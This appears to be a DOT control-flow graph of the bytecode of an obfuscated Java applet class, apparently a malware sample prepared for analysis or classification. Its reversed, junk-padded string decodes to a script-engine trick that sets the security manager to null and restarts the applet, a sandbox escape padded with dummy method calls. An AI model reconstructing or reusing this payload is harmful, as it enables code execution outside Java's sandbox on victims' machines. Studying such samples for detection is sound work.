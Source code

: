 digraph "" {
    "r0 := @this: rhi"
    "push 0"
    "r0 := @this: rhi"->"push 0";
    "store.i i0"
    "push 0"->"store.i i0";
    "load.i i0"
    "store.i i0"->"load.i i0";
    "push 10"
    "load.i i0"->"push 10";
    "ifcmpge.i return"
    "push 10"->"ifcmpge.i return";
    "push \"oop\""
    "ifcmpge.i return"->"push \"oop\"";
    "push \"oop\""->"push \"oop\"";
    "push \"js\""
    "push \"oop\""->"push \"js\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"js\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "pop"
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "new javax.script.ScriptEngineManager"
    "pop"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "load.r r1"
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"load.r r1";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "load.r r1"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"store.r r1";
    "store.r r1"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "new java.lang.StringBuffer"
    "pop"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \";sitjrtht = egassem.rortjrtre;};\\\"petjrty\\\" nrutjrtter;)(trtjrtats.tetjrtlppa;)llun(rtjrteganaMytirutjrtceStes.metsyStjrt.gnatjrtl.atjrtvaj {tjrt)(noitctjrtnuf = gtjrtnirtSot.stjrtiht;tjrt)\\\"rorrtjrte yM\\\"(rotjrtrrE wetjrtn =tjrt rortjrtre ratjrtv\""
    "dup1.r"->"push \";sitjrtht = egassem.rortjrtre;};\\\"petjrty\\\" nrutjrtter;)(trtjrtats.tetjrtlppa;)llun(rtjrteganaMytirutjrtceStes.metsyStjrt.gnatjrtl.atjrtvaj {tjrt)(noitctjrtnuf = gtjrtnirtSot.stjrtiht;tjrt)\\\"rorrtjrte yM\\\"(rotjrtrrE wetjrtn =tjrt rortjrtre ratjrtv\"";
    "push \"tjrt\""
    "push \";sitjrtht = egassem.rortjrtre;};\\\"petjrty\\\" nrutjrtter;)(trtjrtats.tetjrtlppa;)llun(rtjrteganaMytirutjrtceStes.metsyStjrt.gnatjrtl.atjrtvaj {tjrt)(noitctjrtnuf = gtjrtnirtSot.stjrtiht;tjrt)\\\"rorrtjrte yM\\\"(rotjrtrrE wetjrtn =tjrt rortjrtre ratjrtv\""->"push \"tjrt\"";
    "push \"\""
    "push \"tjrt\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r3"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r3";
    "store.r r3"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
    "ifeq load.r r0"
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"ifeq load.r r0";
    "ifeq load.r r0"->"load.r r1";
    "load.r r3"
    "load.r r1"->"load.r r3";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "load.r r3"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"load.r r0";
    "push \"rortjrtre\""
    "load.r r0"->"push \"rortjrtre\"";
    "push \"rortjrtre\""->"push \"tjrt\"";
    "push \"tjrt\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r3";
    "store.r r3"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "push 1"
    "pop"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r21"
    "newarray"->"store.r $r21";
    "load.r $r21"
    "store.r $r21"->"load.r $r21";
    "load.r $r21"->"push 0";
    "push 0"->"load.r r1";
    "load.r r1"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"load.r r3";
    "load.r r3"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r21";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r21"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <rhi: javax.swing.JList misst>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <rhi: javax.swing.JList misst>";
    "fieldput <rhi: javax.swing.JList misst>"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <rhi: javax.swing.JList misst>"
    "load.r r0"->"fieldget <rhi: javax.swing.JList misst>";
    "virtualinvoke <rhi: java.awt.Component add(java.awt.Component)>"
    "fieldget <rhi: javax.swing.JList misst>"->"virtualinvoke <rhi: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <rhi: java.awt.Component add(java.awt.Component)>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"push 10";
    "push 10"->"store.i i0";
    "store.i i0"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <rhi: java.lang.Boolean EcSHVw()>";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"pop";
    "return"
    "pop"->"return";
    "virtualinvoke <rhi: java.lang.Boolean EcSHVw()>"->"store.r r1";
    "store.r r1"->"load.i i0";
    "push 9"
    "load.i i0"->"push 9";
    "ifcmpeq.i inc.i i0 1"
    "push 9"->"ifcmpeq.i inc.i i0 1";
    "goto inc.i i0 1"
    "ifcmpeq.i inc.i i0 1"->"goto inc.i i0 1";
    "inc.i i0 1"
    "goto inc.i i0 1"->"inc.i i0 1";
    "goto load.i i0"
    "inc.i i0 1"->"goto load.i i0";
    "ifcmpge.i return"->"return";
}
